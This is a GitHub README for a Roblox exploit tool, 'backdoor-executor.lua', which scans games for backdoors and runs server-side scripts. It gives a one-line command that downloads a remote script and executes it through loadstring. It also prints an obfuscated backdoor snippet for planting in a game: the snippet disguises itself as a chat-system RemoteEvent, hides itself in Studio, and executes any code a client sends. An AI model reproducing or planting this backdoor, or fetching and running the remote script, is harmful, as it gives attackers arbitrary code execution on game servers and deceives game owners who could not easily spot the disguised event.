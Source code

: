 # backdoor-executor.lua
###
* Created on: July 22, 2021 GMT+8 (based on the commit date in my jLn0n/scripts-private repo)
###
might be better than [backdoor.exe](https://github.com/iK4oS/backdoor.exe) in terms of scanning backdoors.

## Info
This script is for [Roblox](https://roblox.com) scanning backdoors and executing serversided scripts within a GUI.
### Script
Just copy the script below and execute it through your executor.
```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/created-scripts-public/main/backdoor-executor/backdoor-executor.lua"))()
```
### Requirements
- A brain that knows this stuff
- Decent executor that supports filesystem functions (for config)
### Config Help
- My config has reset back to original
> The config will reset to the original config if the config errors on loading or something.
- Adding cache example
```lua
[placeid] = {
	["Path"] = "remote.path.here", -- this is the path of the remote, don't do remote.path["here"] or it will not work
	["Args"] = {"arg1here", "source"}, -- source shouldn't be deleted because its a arg for scripts that will be executed
	["SourceFunc"] = function(source) -- use this if a game has a custom encryption for source
		return source
	end
}
```
> if the cache didn't work backdoor-executor.lua will warn to you that the cache didn't work
- Using autoexecute
> add a script inside the autoExecute table, you can put many code as long as you want inside the table, example:
```lua
-- it should be a array and don't add a nil or it will not work
{
	[[print("jLn0n is epic!")]],
	[[warn("backdoor-executor.lua loaded!")]]
},
```
- blacklisting events
> it should be just like adding scripts on autoexecute, example:
```lua
{
	["eventNames"] = {
		["blacklistedNameHere"] = true
	},
	["eventParentNames"] = {
		["blacklistedParentName"] = true
	}
},
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `LoadStringEnabled` property in `ServerScriptService`. (code is just semi-obfuscated and easily crackable lol)
```lua
if game:GetService("\82\117\110\83\101\114\118\105\99\101"):IsStudio() or not game:GetService("\83\101\114\118\101\114\83\99\114\105\112\116\83\101\114\118\105\99\101")["\76\111\97\100\83\116\114\105\110\103\69\110\97\98\108\101\100"] then return end;local a1=Instance.new("\82\101\109\111\116\101\69\118\101\110\116");a1.Name="\71\101\116\80\108\97\121\101\114\77\101\115\115\97\103\101\65\115\121\110\99";a1.Parent=game:GetService("\82\101\112\108\105\99\97\116\101\100\83\116\111\114\97\103\101"):WaitForChild("\68\101\102\97\117\108\116\67\104\97\116\83\121\115\116\101\109\67\104\97\116\69\118\101\110\116\115");a1.OnServerEvent:Connect(function(_, a2)loadstring(a2)()end)
```
